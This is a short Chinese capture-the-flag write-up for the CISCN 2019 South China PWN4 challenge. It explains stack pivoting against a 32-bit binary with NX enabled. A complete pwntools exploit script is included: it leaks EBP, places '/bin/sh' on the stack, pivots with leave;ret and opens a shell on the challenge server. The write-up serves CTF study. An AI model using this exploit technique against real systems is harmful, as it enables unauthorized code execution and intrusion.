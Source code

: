 # [CISCN 2019华南]PWN4 栈迁移

迁移到buu段

![image-20250202143813495](F:\pwn\images\image-20250202143813495.png)

这里是一个经典的nx保护不能执行shellcode因此要看一下反编译的代码

![image-20250202144020005](./../images/image-20250202144020005.png)

这里看到是一个32位的程序并且read函数只能读入0x30个大小的字符刚好可以覆盖到retunt地址因此我们要使用栈迁移

![image-20250202145338192](./../images/image-20250202145338192.png)

因此我们要泄露一个ebp地址

![image-20250202145414640](./../images/image-20250202145414640.png)

得到一个写入binsh的buu地址因此我们的exp

```python
from pwn import *

io = remote("node5.anna.nssctf.cn",26166)
# io = process("/home/fofa/pwn4")
elf = ELF("/home/fofa/pwn4")
payload = b'a'*0x28
context.log_level='debug'
io.send(payload)
io.recvuntil(b'a'*0x28)
ebp=u32(io.recv(4))
info(hex(ebp))

binsh = ebp-0x28
leave = 0x80485FD
system = elf.sym['system']
payload = b'a'*4+p32(system)+b'a'*4+p32(ebp-0x28)+b'/bin/sh\x00'
payload = payload.ljust(0x28,b'\x00')
payload += p32(ebp-0x38)+p32(leave)
io.sendafter(b'\n',payload)
# gdb.attach(io)
io.interactive()
```


